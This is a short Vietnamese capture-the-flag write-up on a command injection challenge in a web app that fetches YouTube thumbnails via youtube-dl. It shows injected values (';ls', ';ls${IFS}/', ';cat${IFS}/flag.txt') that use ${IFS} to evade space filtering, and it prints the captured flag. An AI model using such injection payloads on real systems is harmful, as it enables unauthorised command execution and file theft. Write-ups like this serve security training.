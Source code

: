 Đây là chương trình lấy ảnh youtube bằng link, thử cung cấp 1 url

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/3386aab7-6cfc-472c-90da-e956018c3e67)

Có vẻ đây là 1 lệnh linux sử dụng thư viện `youtube-dl`

Thêm dấu ngắt lệnh `;ls`

Tên file `index.php` được trả về

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/419a53d1-1f39-4744-9573-4e751c7fc11e)

Kiểm tra thư mục `/`, thấy có file `flag.txt`

```
;ls${IFS}/
```

`${IFS}` là ký tự khoảng trắng trong shell

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/4d2b0355-6874-4301-b0e6-2cd14ebbadf2)

Đọc flag:

```
;cat${IFS}/flag.txt
```

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/41c70a25-5623-4eb6-b947-e1c32180a49b)

```CHH{Ea5y_cOmmaND_inj3c7Ion_48a3fb378305a9dab79569e3060df5cc}```
